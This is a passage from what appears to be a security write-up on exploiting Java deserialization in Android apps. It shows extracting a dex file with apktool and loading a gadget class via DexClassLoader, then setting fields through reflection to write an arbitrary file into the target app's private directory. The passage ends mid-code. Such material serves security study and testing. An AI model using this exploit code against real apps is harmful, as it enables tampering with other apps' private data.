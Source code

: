### Exploitation
Following what has been previously described in the "Application specific gadgets" chapter, we can extract the `classesN.dex` where our target object (`com.example.serialized.receiver.CustomTargetClass`) is defined and import it into our application. This task is easily feasible with a combination of `jadx-gui` and `apktool`. From `jadx-gui` we can see that the class `com.example.serialized.receiver.CustomTargetClass` is defined in `classes4.dex` (from the below comment "loaded from"):

```java
package com.example.serialized.receiver;

import android.content.ComponentName;
import android.util.Log;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

/* loaded from: classes4.dex */
public class CustomTargetClass implements Serializable {
    /* .. */
}
```

With `apktool --no-src d app.apk` we can than extract the `classes4.dex` file and import into our target application (inside `res/raw`). 
After that, we can dynamically load the class and set `filename` and `content` with arbitrary values:

```java

Class<?> loadedClass;
Object obj;

File dexFile = getFileFromRaw(R.raw.classes4_target, "classes_temp_out.dex");
DexClassLoader dexClassLoader = new DexClassLoader(
        dexFile.getAbsolutePath(),          // Path to the DEX file
        null,                               // Deprecated since API 26
        null,                               // No native library search path
        null  								// Parent class loader
);

try {
    loadedClass = dexClassLoader.loadClass("com.example.serialized.receiver.CustomTargetClass");
} catch (ClassNotFoundException e) {
    throw new RuntimeException(e);
}

try {
    obj = loadedClass.newInstance();
} catch (IllegalAccessException | InstantiationException e) {
    throw new RuntimeException(e);
}

// Setting filename and content
Field f_att;
try {
    f_att = loadedClass.getDeclaredField("filename");
    f_att.setAccessible(true);
    f_att.set(obj, "/data/data/com.example.serialized.receiver/pwn.txt");

    f_att = loadedClass.getDeclaredField("content");
    f_att.setAccessible(true);
    f_att.set(obj, "ARE YOU SERI-ALAZABLE?\n");
} catch (NoSuchFieldException | IllegalAccessException e) {
```